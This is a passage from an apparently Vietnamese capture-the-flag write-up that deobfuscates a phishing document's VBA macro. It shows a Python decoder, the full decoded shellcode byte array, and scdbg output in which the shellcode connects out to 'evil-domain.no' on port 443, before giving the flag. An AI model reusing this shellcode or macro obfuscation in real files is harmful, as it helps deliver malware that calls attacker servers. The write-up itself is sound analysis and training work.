)&Chr(45)&""14""&Chr(44)&Chr(45)&""116""&Chr(44)&Chr(45)&_""102""&Chr(44)&""51""&Chr(44)&Chr(45)&""25""&Chr(44)&""68""&Chr(44)&Chr(45)&""100""&Chr(44)&""18""&Chr(44)&Chr(45)&""74""&Chr(44)&Chr(45)&""33""&Chr(44)&Chr(45)&""57""&Chr(44)&Chr(45)&""76""&Chr(44)&""56""&Chr(44)&""12""&Chr(44)&_""124""&Chr(44)&Chr(45)&""3""&Chr(44)&""34""&Chr(44)&""81""&Chr(44)&Chr(45)&""71""&Chr(44)&Chr(45)&""73""&Chr(44)&Chr(45)&""39""&Chr(44)&Chr(45)&""95""&Chr(44)&""53""&Chr(44)&""70""&Chr(44)&""8""&Chr(44)&Chr(45)&""8""&Chr(44)&Chr(45)&_""74""&Chr(44)&Chr(45)&""27""&Chr(44)&""117""&Chr(44)&""53""&Chr(44)&""69""&Chr(44)&Chr(45)&""9""&Chr(44)&Chr(45)&""78""&Chr(44)&Chr(45)&""15""&Chr(44)&Chr(45)&""74""&Chr(44)&Chr(45)&""126""&Chr(44)&Chr(45)&""54""&Chr(44)&""2""&_Chr(44)&""74""&Chr(44)&Chr(45)&""107""&Chr(44)&""8""&Chr(44)&""121""&Chr(44)&Chr(45)&""112""&Chr(44)&""16""&Chr(44)&Chr(45)&""117""&Chr(44)&Chr(45)&""39""&Chr(44)&""83""&Chr(44)&Chr(45)&""126""&Chr(44)&""119""&Chr(44)&Chr(45)&_""40""&Chr(44)&Chr(45)&""80""&Chr(44)&""85""&Chr(44)&Chr(45)&""13""&Chr(44)&Chr(45)&""42""&Chr(44)&""125""&Chr(44)&""17""&Chr(44)&""91""&Chr(44)&Chr(45)&""6""&Chr(44)&Chr(45)&""128""&Chr(44)&Chr(45)&""10""&Chr(44)&Chr(45)&""41""&_Chr(44)&""6""&Chr(44)&""8""&Chr(44)&Chr(45)&""7""&Chr(44)&""55""&Chr(44)&Chr(45)&""113""&Chr(44)&""74""&Chr(44)&Chr(45)&""34""&Chr(44)&Chr(45)&""109""&Chr(44)&Chr(45)&""44""&Chr(44)&""9""&Chr(44)&""127""&Chr(44)&Chr(45)&""123""&_Chr(44)&Chr(45)&""80""&Chr(44)&Chr(45)&""4""&Chr(44)&Chr(45)&""128""&Chr(44)&Chr(45)&""43""&Chr(44)&""27""&Chr(44)&Chr(45)&""96""&Chr(44)&""36""&Chr(44)&Chr(45)&""99""&Chr(44)&Chr(45)&""79""&Chr(44)&Chr(45)&""75""&Chr(44)&""84""&_Chr(44)&Chr(45)&""4""&Chr(44)&Chr(45)&""35""&Chr(44)&""122""&Chr(44)&""85""&Chr(44)&Chr(45)&""1""&Chr(44)&""29""&Chr(44)&""21""&Chr(44)&Chr(45)&""18""&Chr(44)&Chr(45)&""116""&Chr(44)&""47""&Chr(44)&Chr(45)&""70""&Chr(44)&""68""&_Chr(44)&""27""&Chr(44)&""3""&Chr(44)&""51""&Chr(44)&""67""&Chr(44)&Chr(45)&""36""&Chr(44)&""100""&Chr(44)&""110""&Chr(44)&""51""&Chr(44)&""114""&Chr(44)&Chr(45)&""101""&Chr(44)&Chr(45)&""111""&Chr(44)&""68""&Chr(44)&""90""&Chr(44)&_""95""&Chr(44)&Chr(45)&""59""&Chr(44)&""20""&Chr(44)&Chr(45)&""12""&Chr(44)&""118""&Chr(44)&""102""&Chr(44)&Chr(45)&""1""&Chr(44)&""4""&Chr(44)&""119""&Chr(44)&Chr(45)&""77""&Chr(44)&""80""&Chr(44)&""85""&Chr(44)&Chr(45)&""41""&Chr(44)&_""108""&Chr(44)&""17""&Chr(44)&""5""&Chr(44)&Chr(45)&""105""&Chr(44)&Chr(45)&""36""&Chr(44)&Chr(45)&""7""&Chr(44)&""79""&Chr(44)&""24""&Chr(44)&""2""&Chr(44)&""25""&Chr(44)&""112""&Chr(44)&Chr(45)&""13""&Chr(44)&""43""&Chr(44)&""50""&_Chr(44)&Chr(45)&""88""&Chr(44)&Chr(45)&""5""&Chr(44)&""83""&Chr(44)&Chr(45)&""61""&Chr(44)&Chr(45)&""46""&Chr(44)&Chr(45)&""115""&Chr(44)&""58""&Chr(44)&Chr(45)&""81""&Chr(44)&""49""&Chr(44)&""21""&Chr(44)&Chr(45)&""46""&Chr(44)&_""66""&Chr(44)&""43""&Chr(44)&Chr(45)&""68""&Chr(44)&""66""&Chr(44)&Chr(45)&""77""&Chr(44)&Chr(45)&""59""&Chr(44)&""81""&Chr(44)&Chr(45)&""76""&Chr(44)&Chr(45)&""125""&Chr(44)&""77""&Chr(44)&Chr(45)&""17""&Chr(44)&Chr(45)&""79""&_Chr(44)&""116""&Chr(44)&""94""&Chr(44)&Chr(45)&""80""&Chr(44)&""2""&Chr(44)&""72""&Chr(44)&Chr(45)&""22""&Chr(44)&""17""&Chr(44)&Chr(45)&""7""&Chr(44)&Chr(45)&""58""&Chr(44)&""33""&Chr(44)&Chr(45)&""14""&Chr(44)&""113""&Chr(44)&_""127""&Chr(44)&""119""&Chr(44)&""127""&Chr(44)&""26""&Chr(44)&""76""&Chr(44)&""37""&Chr(44)&""2""&Chr(44)&Chr(45)&""38""&Chr(44)&Chr(45)&""38""&Chr(44)&""96""&Chr(44)&Chr(45)&""44""&Chr(44)&Chr(45)&""18""&Chr(44)&Chr(45)&""102""&_Chr(44)&Chr(45)&""116""&Chr(44)&Chr(45)&""15""&Chr(44)&Chr(45)&""124""&Chr(44)&Chr(45)&""37""&Chr(44)&""110""&Chr(44)&Chr(45)&""109""&Chr(44)&Chr(45)&""112""&Chr(44)&Chr(45)&""117""&Chr(44)&Chr(45)&""26""&Chr(44)&""97""&Chr(44)&_Chr(45)&""91""&Chr(44)&""42""&Chr(44)&""76""&Chr(44)&Chr(45)&""20""&Chr(44)&""67""&Chr(44)&""70""&Chr(44)&Chr(45)&""94""&Chr(44)&Chr(45)&""72""&Chr(44)&Chr(45)&""36""&Chr(44)&Chr(45)&""1""&Chr(44)&""91""&Chr(44)&Chr(45)&""31""&_Chr(44)&Chr(45)&""105""&Chr(44)&Chr(45)&""98""&Chr(44)&Chr(45)&""92""&Chr(44)&""60""&Chr(44)&Chr(45)&""46""&Chr(44)&Chr(45)&""95""&Chr(44)&""47""&Chr(44)&Chr(45)&""76""&Chr(44)&""34""&Chr(44)&""111""&Chr(44)&Chr(45)&""40""&Chr(44)&_Chr(45)&""67""&Chr(44)&""48""&Chr(44)&Chr(45)&""104""&Chr(44)&Chr(45)&""65""&Chr(44)&""61""&Chr(44)&Chr(45)&""55""&Chr(44)&""89""&Chr(44)&""42""&Chr(44)&""61""&Chr(44)&Chr(45)&""93""&Chr(44)&""93""&Chr(44)&Chr(45)&""4""&Chr(44)&_""106""&Chr(44)&""91""&Chr(44)&""92""&Chr(44)&Chr(45)&""39""&Chr(44)&""92""&Chr(44)&Chr(45)&""60""&Chr(44)&Chr(45)&""97""&Chr(44)&""12""&Chr(44)&Chr(45)&""33""&Chr(44)&""3""&Chr(44)&""95""&Chr(44)&Chr(45)&""47""&Chr(44)&Chr(45)&_""23""&Chr(44)&""120""&Chr(44)&""86""&Chr(44)&""71""&Chr(44)&""85""&Chr(44)&""23""&Chr(44)&Chr(45)&""105""&Chr(44)&Chr(45)&""121""&Chr(44)&""85""&Chr(44)&Chr(45)&""25""&Chr(44)&Chr(45)&""63""&Chr(44)&Chr(45)&""51""&Chr(44)&""85""&_Chr(44)&Chr(45)&""113""&Chr(44)&Chr(45)&""75""&Chr(44)&Chr(45)&""75""&Chr(44)&""6""&Chr(44)&Chr(45)&""86""&Chr(44)&Chr(45)&""71""&Chr(44)&""99""&Chr(44)&""59""&Chr(44)&""103""&Chr(44)&""44""&Chr(44)&Chr(45)&""116""&Chr(44)&""109""&_Chr(44)&Chr(45)&""37""&Chr(44)&Chr(45)&""25""&Chr(44)&Chr(45)&""28""&Chr(44)&Chr(45)&""109""&Chr(44)&""2""&Chr(44)&Chr(45)&""49""&Chr(44)&Chr(45)&""86""&Chr(44)&""108""&Chr(44)&""97""&Chr(44)&""83""&Chr(44)&Chr(45)&""84""&Chr(44)&_Chr(45)&""110""&Chr(44)&Chr(45)&""9""&Chr(44)&""124""&Chr(44)&""21""&Chr(44)&Chr(45)&""6""&Chr(44)&""7""&Chr(44)&""61""&Chr(44)&Chr(45)&""91""&Chr(44)&Chr(45)&""6""&Chr(44)&""109""&Chr(44)&Chr(45)&""67""&Chr(44)&Chr(45)&""11""&_Chr(44)&Chr(45)&""110""&Chr(44)&""122""&Chr(44)&Chr(45)&""110""&Chr(44)&Chr(45)&""6""&Chr(44)&""82""&Chr(44)&Chr(45)&""126""&Chr(44)&""57""&Chr(44)&""83""&Chr(44)&Chr(45)&""6""&Chr(44)&""9""&Chr(44)&Chr(45)&""84""&Chr(44)&""17""&_Chr(44)&Chr(45)&""101""&Chr(44)&""14""&Chr(44)&Chr(45)&""27""&Chr(44)&Chr(45)&""12""&Chr(44)&""5""&Chr(44)&""14""&Chr(44)&""10""&Chr(44)&""45""&Chr(44)&Chr(45)&""74""&Chr(44)&""117""&Chr(44)&""95""&Chr(44)&Chr(45)&""46""&Chr(44)&_""55""&Chr(44)&Chr(45)&""118""&Chr(44)&Chr(45)&""119""&Chr(44)&Chr(45)&""73""&Chr(44)&""56""&Chr(44)&Chr(45)&""118""&Chr(44)&Chr(45)&""75""&Chr(44)&Chr(45)&""55""&Chr(44)&""5""&Chr(44)&""92""&Chr(44)&Chr(45)&""116""&Chr(44)&Chr(45)&_""65""&Chr(44)&""72""&Chr(44)&""92""&Chr(44)&Chr(45)&""85""&Chr(44)&Chr(45)&""80""&Chr(44)&Chr(45)&""1""&Chr(44)&Chr(45)&""63""&Chr(44)&Chr(45)&""102""&Chr(44)&""90""&Chr(44)&Chr(45)&""1""&Chr(44)&""86""&Chr(44)&Chr(45)&""36""&Chr(44)&_""78""&Chr(41)&Chr(10)&""'
list = array.split('""')
for i in range(0, len(list)):
    if i%2==0:
        print(list[i], end = '')
    else:
        number_list = re.findall(r'\d+', list[i])
        for k in number_list:
            print(chr(int(k)), end = '')
```
- Và đây là đầu ra
```
myArray=Array(-35,-63,-65,32,86,66,126,-39,116,36,-12,91,49,-55,-79,98,49,123,24,3,123,24,-125,-61,36,-76,-73,-126,-52,-70,56,123,12,-37,-79,-98,61,-37,-90,-21,109,-21,-83,-66,-127,-128,-32,42,18,-28,44,92,-109,67,11,83,36,-1,111,-14,-90,2,-68,-44,-105,-52,-79,21,-48,49,59,71,-119,62,-18,120,-66,11,51,-14,-116,-102,51,-25,68,-100,18,-74,-33,-57,-76,56,12,124,-3,34,81,-71,-73,-39,-95,53,70,8,-8,-74,-27,117,53,69,-9,-78,-15,-74,-126,-54,2,74,-107,8,121,-112,16,-117,-39,83,-126,119,-40,-80,85,-13,-42,125,17,91,-6,-128,-10,-41,6,8,-7,55,-113,74,-34,-109,-44,9,127,-123,-80,-4,-128,-43,27,-96,36,-99,-79,-75,84,-4,-35,122,85,-1,29,21,-18,-116,47,-70,68,27,3,51,67,-36,100,110,51,114,-101,-111,68,90,95,-59,20,-12,118,102,-1,4,119,-77,80,85,-41,108,17,5,-105,-36,-7,79,24,2,25,112,-13,43,50,-88,-5,83,-61,-46,-115,58,-81,49,21,-46,66,43,-68,66,-77,-59,81,-76,-125,77,-17,-79,116,94,-80,2,72,-22,17,-7,-58,33,-14,113,127,119,127,26,76,37,2,-38,-38,96,-44,-18,-102,-116,-15,-124,-37,110,-109,-112,-117,-26,97,-91,42,76,-20,67,70,-94,-72,-36,-1,91,-31,-105,-98,-92,60,-46,-95,47,-76,34,111,-40,-67,48,-104,-65,61,-55,89,42,61,-93,93,-4,106,91,92,-39,92,-60,-97,12,-33,3,95,-47,-23,120,86,71,85,23,-105,-121,85,-25,-63,-51,85,-113,-75,-75,6,-86,-71,99,59,103,44,-116,109,-37,-25,-28,-109,2,-49,-86,108,97,83,-84,-110,-9,124,21,-6,7,61,-91,-6,109,-67,-11,-110,122,-110,-6,82,-126,57,83,-6,9,-84,17,-101,14,-27,-12,5,14,10,45,-74,117,95,-46,55,-118,-119,-73,56,-118,-75,-55,5,92,-116,-65,72,92,-85,-80,-1,-63,-102,90,-1,86,-36,78)
``` 
-  
- Lưu file về và sử dụng scdbg để debug shellcode
```
PS F:\CTF tool\scdbg> .\scdbg.exe -f .\download.dat
Loaded 1a0 bytes from file .\download.dat
Initialization Complete..
Max Steps: 2000000
4010b6baLoadLibraryA(ws2_32)
4010c6  WSAStartup(190)
4010d5  WSASocket(af=2, tp=1, proto=0, group=0, flags=0)
401109  gethostbyname(evil-domain.no/HTB{g0_G3t_th3_ph1sh3R}) = 1000
401121  connect(h=42, host: 127.0.0.1 , port: 443 ) = 71ab4a07
40113c  recv(h=42, buf=12fc60, len=4, fl=0)
40117f  closesocket(h=42)
401109  gethostbyname(evil-domain.no/HTB{g0_G3t_th3_ph1sh3R}) = 1000

Stepcount 2000001
```

> HTB{g0_G3t_th3_ph1sh3R}


